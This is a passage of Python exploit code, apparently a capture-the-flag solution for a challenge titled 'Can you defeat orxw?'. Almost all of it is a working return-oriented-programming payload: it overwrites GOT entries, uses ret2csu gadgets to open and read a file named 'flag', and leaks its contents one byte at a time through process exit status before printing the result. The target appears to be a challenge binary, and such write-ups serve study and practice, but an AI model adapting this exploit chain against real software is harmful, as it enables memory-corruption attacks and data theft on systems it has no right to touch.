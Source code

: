 ```python
    payload += add_val(put_got, gg1)
    payload += add_val(secinit_got, ggg1)
    payload += add_val(secadd_got, gggg1)

    #### write/nop ####
    payload += p64(pop_rdi_ret) + p64(status)
    payload += add_val(fork_got, g1)
    payload += p64(fork_plt)

    payload += p64(secadd_plt)
    payload += p64(put_got) + p64(0)

    payload += add_val(fork_got, g2)
    payload += p64(fork_plt)
    payload += add_val(fork_got, g3)
    payload += p64(fork_plt)
    payload += p64(pop_rdi_ret) + p64(read_got)
    payload += p64(secinit_plt)
    payload += p64(pop_rdi_ret) + p64(1)
    payload += p64(pop_rsi_r15_ret) + p64(status) + p64(1)
    payload += p64(secadd_plt)
    payload += p64(1) + p64(0)
    payload += p64(put_plt)

    #### open ####
    payload += add_val(setbuf_got, 0x82200)
    payload += add_val(status, 0x67616c66)
    payload += p64(pop_rdi_ret) + p64(status)
    payload += p64(pop_rsi_r15_ret) + p64(0)*2
    payload += p64(setbuf_plt)

    #### read ####
    payload += p64(csu_init_1) + p64(0) + p64(1) + p64(0) + p64(status) + p64(0x400) + p64(read_got) + p64(csu_init_2)
    payload += b''.join([p64(i) for i in range(7)])

    #### exit ####
    payload += p64(pop_rdi_ret) + p64(status)
    payload += add_val(fork_got, final)
    payload += p64(pop_rbx_rbp_r12_r13_r14_r15_ret) + p64(exit_plt) + p64(status+i) + b''.join([p64(i) for i in range(15-12+1)]) 
    payload += p64(fork_plt)

    print(hex(len(payload)))
    #gdb.attach(r,"set follow-fork-mode parent")
    #gdb.attach(r,"")
    r.sendafter('Can you defeat orxw?\n', payload)
    flag += r.recv(1)
    print(flag)
    r.close()

print("here is your flag: " + flag.decode())
```

